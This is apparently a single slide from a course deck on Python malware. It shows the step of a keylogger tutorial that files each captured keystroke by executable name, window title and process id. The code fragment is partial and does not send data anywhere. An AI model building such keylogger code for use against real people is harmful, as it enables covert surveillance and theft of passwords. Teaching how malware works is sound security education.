

Python Malwares (cont.)
Writing a Keylogger (cont.)
If there’s an entry for executable_name, we check if there’s a window_title entry. If there is, we add the captured key to keys.
        ...
        # if there is a window title, then add keys to it.
        if(keylogger_result[executable_name].get(window_title) != None):
            keylogger_result[executable_name].update({
                    window_title : {
                        "process_id": process_id,
                        "keys": keylogger_result[executable_name][window_title]["keys"] + key
                    }
                })
133